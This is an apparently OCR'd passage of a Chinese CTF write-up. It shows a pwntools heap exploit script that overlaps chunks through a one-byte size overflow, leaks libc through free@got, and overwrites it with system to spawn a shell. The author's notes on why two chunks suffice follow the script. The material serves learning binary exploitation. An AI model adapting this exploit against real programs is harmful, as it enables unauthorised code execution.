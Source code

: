 ```python

def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


free_got = 0x602018
create(0x18, "dada")  # 0
create(0x10, "ddaa")  # 1
# 覆盖heap1的size域为0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# trigger heap 1's struct to fastbin 0x40，现在heap1（heaparray存着的那个指针）指向的堆块在fastbin中是0x40大小
# heap 1's content to fastbin 0x20，可能是我们申请的16字节+16字节chunk头=总共32字节content大小？
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20，更不懂了，哪来的old heap1？不是已经free掉了吗？
# new heap 1's content will point to old heap 1's struct, size 0x30，看起来是接下来create的0x30大小被写入了原heap1在heaparray上存着的那个指针
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(0x00602018))  #1
# leak freeaddr
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split(b"\n")[0].ljust(8, b"\x00"))
libc_base = free_addr - 541936
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + 283536
#gdb.attach(r)
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
r.interactive()
```

这个exp我看不懂的地方在于只用了2个堆就getshell，而看的wp用了3个堆，非常好理解,就是申请3个堆，编辑0号堆溢出到1号堆的size并更改，于是free时就会把还在使用中的chunk3吞并。接着create就能编辑chunk3的指针，从而泄露地址和改system。但是这里怎么只用了2个啊？

在我懵逼了一个小时后，我又搜到了一篇[wp](https://blog.csdn.net/qq_53928256/article/details/126463515)。关键点在于，申请大小为0x18时不代表实际得到的堆块整体大小就是0x18，还有chunk_header，还有下一个chunk的pre_size域利用，要根据这个特点让我们溢出的一个字节正好到下一个堆块的size域而不是pre_size域。还有一个点，就是程序内free是free了两个堆块的，heaparray中的结构指针和内容指针。我们通过chunk覆盖导致两个指针指向的空间有重叠，所以在新建堆块时，heaparray的结构指针申请到内容指针可以控制到的地方去了。大概是这么一个情况：
